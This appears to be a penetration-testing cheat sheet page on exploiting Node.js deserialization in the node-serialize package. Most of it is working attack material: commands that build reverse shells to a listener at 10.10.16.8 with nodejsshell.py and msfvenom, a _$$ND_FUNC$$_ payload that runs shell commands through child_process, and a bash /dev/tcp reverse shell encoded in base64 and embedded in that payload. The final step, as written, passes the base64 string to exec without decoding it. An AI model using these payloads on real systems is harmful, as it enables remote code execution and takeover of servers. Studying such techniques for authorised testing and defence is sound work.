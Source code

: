 ```yaml
---
icon: link-slash
---
```


# Deserialization

{% hint style="info" %}
### <mark style="color:orange;">`nodejs`</mark>

* <mark style="color:purple;">Install</mark> <mark style="color:orange;">**`node-serialize`**</mark><mark style="color:purple;">:</mark>

```sh
npm install node-serialize
```

***

[<mark style="color:orange;">**`nodejsshell.py`**</mark>](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) <mark style="color:purple;">**Method:**</mark>

1. <mark style="color:purple;">Create the node reverse shell:</mark>

```sh
python3 nodejsshell.py 10.10.16.8 4444
```

1. <mark style="color:purple;">Once you have a serialized reverse shell, add it to this function:</mark>

{% code overflow="wrap" %}
```javascript
var y = {
  rce: function(){ADD/THE/PAYLOAD/HERE}
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));
```
{% endcode %}

3. <mark style="color:purple;">Now serialize convert to</mark> <mark style="color:orange;">**`base64`**</mark> <mark style="color:purple;">the exploit using</mark><mark style="color:purple;">**:**</mark>

```
nodejs exploit.js | tail -n +2 | base64 -w0
```

***

* <mark style="color:orange;">**`msfvenom`**</mark> <mark style="color:purple;">also has a module to generate payloads:</mark>

{% code overflow="wrap" %}
```sh
msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -o shell.js
```
{% endcode %}

* <mark style="color:purple;">Another great tool is</mark> [<mark style="color:orange;">**`ysoserial`**</mark>](https://github.com/frohoff/ysoserial)

***

* Another way is to get command execution is by using this function:

{% code overflow="wrap" %}
```javascript
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });}()"}
```
{% endcode %}

* We can generate a reverse shell out of this by encoding the command first to base64:&#x20;

```sh
echo 'bash -i >& /dev/tcp/10.10.16.8/4444 0>&1' | base64
```

* Now add that string to the function like this:

{% code overflow="wrap" %}
```javascript
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzQ0NDQgMD4mMQo=',
function(error, stdout, stderr) { console.log(stdout) });}()"}
```
{% endcode %}

* Sometimes you may want URL encode the payload to make it work.
{% endhint %}

